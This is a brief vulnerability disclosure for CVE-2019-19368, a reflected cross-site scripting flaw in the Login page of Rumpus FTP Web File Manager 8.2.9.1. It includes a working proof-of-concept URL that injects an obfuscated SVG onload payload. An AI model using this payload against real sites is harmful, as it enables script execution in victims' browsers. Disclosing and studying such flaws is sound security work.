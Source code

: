 # CVE-2019-19368

A Reflected Cross Site Scripting was discovered in the Login page of Rumpus FTP Web File Manager 8.2.9.1. 
An attacker can exploit it by sending a crafted link to end users and can execute arbitrary Javascripts.

## POC

http://target/Login?!%27><sVg/OnLoAD=alert`1337`//" 

